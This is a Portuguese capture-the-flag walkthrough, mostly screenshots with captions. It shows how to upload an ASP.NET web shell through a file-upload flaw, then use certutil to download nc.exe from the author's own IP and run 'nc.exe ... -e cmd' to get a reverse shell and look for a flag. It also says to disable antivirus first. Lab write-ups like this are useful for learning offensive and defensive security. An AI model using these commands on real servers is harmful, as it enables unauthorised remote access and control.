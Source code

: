# Depois de levantar informações especificas como o lugar ontem tem uma falha para upar arquivos e deletar , o lugar onde essee arquivos ficam armazenados e ainda conseguir acessar ele.

## Resumindo tudo favoravel para subir o shell

## Contexto para subir o shell sabendo a tecnologia do site que é ASP NET eu posso ta procurando um Shell que seja ASPNET.aspx upar no servidor e acessar ele e conseguir injetar comandos 
## 1° - Procurar no google o SHell : github: shell for ASP.aspx 
## 2° - Desligar o antivirus do computador
![image](https://github.com/user-attachments/assets/d7a9b6dd-d1a3-463e-a716-488dfa836c1a)
## 3° - salvar esse shell no arquivo .aspx
![image](https://github.com/user-attachments/assets/bf04650c-c0af-4cfc-81c8-9d19ef13cf80)
## com ele em mãos é so subir no servidor e acessar
## acessando o local onde descobrimos no DIRSEARCH que é o magnam que faz o trabalho do banco de dados
![image](https://github.com/user-attachments/assets/b4f7bf34-f8f4-40a1-b90b-32065c645192)
## upando arquivo
![image](https://github.com/user-attachments/assets/f4923442-491e-49ad-9738-48ca914b4726)
## arquivo UPADO só acessa agora
![image](https://github.com/user-attachments/assets/0afbee35-4be9-4f1b-acad-2c5cac33dce3)
## acessando o arquivo 
![image](https://github.com/user-attachments/assets/634bf72b-4d67-446c-8acc-9bc82da34bbb)
## shell.aspx subiu porem voce ainda nao tem cotrole total para navegar nos diretorios para fazer um enumeração de arquivos
## proximo passo é baixar o nc.exe e colocar em uma pasta no seu propio windons instalar o python criar uma pasta colocar o arquivo nc.exe lá dentro e dai iniciar o servidor python com o nc.exe disponivel para dowload
![image](https://github.com/user-attachments/assets/0b399e9c-440c-48b4-b4c5-8434dad98986)
## coloquei em uma pasta com o nome "Nova Pasta" e inciei o servidor pyhton pelo cmd do meu windons
![image](https://github.com/user-attachments/assets/919c4e88-32e4-4459-adcb-700e80e462e0)
## agora para baixar usando o shell que eu subi vai ser usado o comando:
```txt
  certutil -urlcache -split -f http://192.168.100.168/nc.exe c:\users\public\nc.exe

    o Certutil serve para baixar arquivos em um windons e como esta em um server http só vai ser preciso colocar a url,
    com o endereço de ip do meu computador windons e o arquivo que vai ser baixado que é o nc.exe,
    e dai ele vai salvar no users public que qualqr um tem acesso com o nome de nc.exe
```
## depois de rodar o comando vai dizer que deu sucesso:
![image](https://github.com/user-attachments/assets/20dfd46a-d056-4dd6-ad33-0ae350bcd4a4)
## agora é so verificar se realmente ele foi baixado na pasta publica (ele está lá):
![image](https://github.com/user-attachments/assets/7a58ca23-e926-482a-bac3-34088934c625)
## arquivo upado precisamos acessar a shell do nosso win ( colocamos o nc para escutar na porta 4444 ):
![image](https://github.com/user-attachments/assets/a5debaf5-4d6b-424a-aa99-a6b3c91a7d13)
## porta escutando é so executar o comando: 
```txt
   c:\users\public\nc.exe 192.168.100.168 4444 -e cmd 

    nesse comando ele ta executando o arquivo que ta no public passando o ip e a porta e o tipo de comando que vai ser usado 
    o ip : da minha maq win , a porta que foi selecionada para falar que estava escutando do outro lado , e o e para executar o cmd no meu win
```
![image](https://github.com/user-attachments/assets/c7eeac35-cce7-4d21-9c70-6cfaa5b68f9b)
## depois de executar o comando a porta que esta escutando vai receber o cmd 
![image](https://github.com/user-attachments/assets/e768c7eb-f61c-4241-8d7e-e2997555c53c)
## agora é so fazer enumeração de arquivos e encotrar a flag do arquivo sensivel:
![image](https://github.com/user-attachments/assets/03169296-a4f6-4d47-8cb0-c8ded1dcf93a)





